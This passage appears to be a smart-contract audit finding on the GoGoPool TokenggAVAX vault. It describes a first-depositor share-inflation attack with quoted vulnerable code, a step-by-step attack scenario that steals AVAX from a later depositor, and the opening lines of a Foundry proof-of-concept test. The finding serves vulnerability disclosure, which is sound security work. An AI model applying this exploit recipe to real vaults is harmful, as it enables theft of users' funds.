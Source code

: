 Additionally, the price inflation causes a revert for users who want to deposit less then the donation (WAVAX transfer) amount, due to precision rounding when depositing.

`depositAVAX`: <https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/TokenggAVAX.sol#L166>

    	function depositAVAX() public payable returns (uint256 shares) {
    ------
    		if ((shares = previewDeposit(assets)) == 0) {
    			revert ZeroShares();
    		}
    ------
    	}

`previewDeposit` and ` convertToShares  `:<br>
<https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L133><br>
<https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L123>

    	function convertToShares(uint256 assets) public view virtual returns (uint256) {
    		uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

    		return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    	}
    	function previewDeposit(uint256 assets) public view virtual returns (uint256) {
    		return convertToShares(assets);
    	}

**Foundry POC**

The POC will demonstrate the below scenario:

1.  Bob front-runs the vault creation.
2.  Bob deposits 1 WEI of AVAX to the vault.
3.  Bob transfers 1000 WAVAX to the vault.
4.  Bob calls `syncRewards` when block.timestamp = `1672876799`.
5.  Bob waits 1 second.
6.  Bob calls `syncRewards` again. Share price fully inflated.
7.  Alice deposits 2000 AVAX to vault.
8.  Bob withdraws 1500 AVAX (steals 500 AVAX from Alice).
9.  Alice share earns her 1500 AVAX (although she deposited 2000).

Additionally, the POC will show that depositors trying to deposit less then the donation amount will revert.

Add the following test to `TokenggAVAX.t.sol`: <https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/test/unit/TokenggAVAX.t.sol#L108>

    	function testShareInflation() public {
    		uint256 depositAmount = 1;
    		uint256 aliceDeposit = 2000 ether;
    		uint256 donationAmount = 1000 ether;
    		vm.deal(bob, donationAmount  + depositAmount);
    		vm.deal(alice, aliceDeposit);
    		vm.warp(1672876799);
